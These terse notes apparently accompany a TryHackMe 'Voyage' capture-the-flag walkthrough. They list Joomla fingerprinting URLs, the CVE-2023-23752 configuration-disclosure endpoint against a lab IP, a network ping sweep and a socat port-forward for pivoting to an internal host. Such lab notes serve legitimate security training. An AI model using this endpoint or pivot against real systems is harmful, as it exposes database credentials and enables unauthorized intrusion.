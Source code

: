 # for tryhackme room Voyage https://tryhackme.com/room/voyage
# Youtube video walk through: https://youtu.be/vB2KG0V-oc0

Joomla Version:

https://github.com/OWASP/joomscan

http[:]//10[.]10[.]113[.]54/README.txt

http[:]//10[.]10[.]113[.]54/administrator/manifests/files/joomla.xml

CVE-2023-23752

http[:]//10[.]10[.]113[.]54/api/index.php/v1/config/application?public=true

nmap -sn 192.168.100.0/24

socat tcp-listen:5000,fork,reuseaddr tcp:192.168.100.12:5000 &
